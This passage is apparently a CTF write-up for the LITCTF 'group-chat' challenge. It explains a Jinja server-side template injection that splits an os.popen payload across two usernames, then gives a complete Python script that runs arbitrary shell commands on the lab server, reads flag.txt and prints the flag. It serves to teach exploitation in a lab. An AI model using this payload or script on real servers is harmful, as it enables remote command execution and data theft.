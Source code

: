To do that, we need to bypass the `: [MESSAGE]` separator between the two usernames.

```py
chat_message = username + ": " + msg
chat_logs.append(chat_message)
```

The key insight is to use SSTI to execute a Bash command, then comment out the rest of the input to avoid syntax errors, essentially running:

```sh
ls # : [MESSAGE]
```

To automate this, I wrote a Python script to execute arbitrary Bash commands on the vulnerable server by setting two usernames and sending a benign message:

```py
import requests
import sys

URL = "http://localhost:5000"
COMMAND = sys.argv[1]

# {{config.__class__.__init__.__globals__['os'].popen('COMMAND # : MESSAGE').read()}}
PAYLOAD_1 = "{{config.__class__.__init__.__globals__['os'].popen('" + COMMAND + " # "
PAYLOAD_2 = "').read()}}"

def set_username(username):
    session = requests.Session()
    session.post(URL + "/set_username", data={"username": username})
    return session.cookies["session"]

def send_message(cookie):
    session = requests.Session()
    session.cookies["session"] = cookie
    r = session.post(URL + "/send_message", data={"message": "hello"})
    return r

cookie1 = set_username(PAYLOAD_1)
cookie2 = set_username(PAYLOAD_2)

send_message(cookie1)
send_message(cookie2)
```

After successfully running an `ls` command, I spotted the `flag.txt` file and used the same method to read its contents with `cat`.

![flag](/litctf/group-chat/flag.png)

```
LITCTF{1m_g0nn4_h4v3_t0_d0_m0r3_t0_5t0p_7he_1n3v1t4bl3_f0rw4rd_br4c3_f0rw4rd_br4c3_b4ckw4rd_br4c3_b4ckw4rd_br4c3}
```

---